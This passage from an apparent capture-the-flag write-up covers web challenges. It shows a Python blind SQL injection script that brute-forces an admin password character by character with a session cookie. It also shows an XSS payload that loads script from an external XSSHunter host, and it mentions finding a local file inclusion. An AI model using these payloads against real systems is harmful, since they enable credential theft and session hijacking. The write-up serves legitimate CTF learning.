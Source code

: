   session = ".eJwVj0Frg0AQRv9KmbOHRC0EoZeiCVuYkbQTZfZmEqO7ugYixdWQ_157e_AeH3xPGO7DpYbkCW9nSACtbiksHKYqkkVFyM2GWCI8HL2UXzZnmZC_HTpywkWnbRMSX2Ys1X-zwZAM8b5d-R0XFVJ62mJ49JRmPk-zrbhTrK3EyDjrUqKcVaSZ2vxQ9GKVF247YTJ52jpZPh2x8sTZIm5v9LolNptk6Tu03Qe8Avgd68dQufUA_ExmHLsZAqiuzgyQ3Kp-rAPoq6FZ9e2xGnOFZBe__gBfKVAP.DLpGFw.xgJdaSDoDQNmN4w0D1OTDWYWiIs"

  passwdlen = 37
  password=""
  for i in range(passwdlen-5,passwdlen+20):
    for c in range(32,250):
      payload = {
        'nonce':'26a7ef027c271845670d1abc96014f2cfa5df865721b70d43cb51a0d93264553d1411815be8f68132ef7927e3a8eeb21a8da3b88fc0f521513babd55b10c9d29',
        'username': 'admin',
        'password': "' or substring(password,"+str(i)+",1)='"+chr(c)
      }
      r = requests.post(url, data=payload, cookies = {'session': session}, verify=False ).text
      print payload['password']

      if not "invalide" in r:
        password += chr(c)
        print password
        break
{% endhighlight %}
With this we get BCPP6f5f5724aa2fa973bb9471746c2cb4a0} which looks like a flag, we can easily correct the first chars : ECW{6f5f5724aa2fa973bb9471746c2cb4a0}




## Web 150 - GoldFish

GoldFish was a Web Application written in PHP, where you can write a "post-it" which will self-destroy after 30sec.
For this challenge I created a user named "glopglopglop" this will be needed for the exploitation ;)

First I tried to exploit an XSS, you could write a "Post" with the following input:
{% highlight php%}
postname: reflected in the url
content : reflected in the page
{% endhighlight %}
The "Post" would be available at "/posts/user/postname" (this URL was found when you submit the same post twice in less than 30sec)

Here is a simple output that triggered the XSS (the payload is from XSSHunter), it was available at https://challenge-ecw.fr/chals/web150/posts/glopglopglop/mymemo
{% highlight php%}
My super memo content!"></textarea></blockquote><script src=https://[REDACTED].xss.ht></script>
<script src=https://[REDACTED].xss.ht></script>
{% endhighlight %}
I waited hours and hours, nothing happened..

Then I try to fuzz a little bit the "name" field since we could "rewrite" the URL. I finally managed to find an LFI with the source code reflected in the dashboard inside the memo. Thanks to this we could extract all the source code of the WebApp
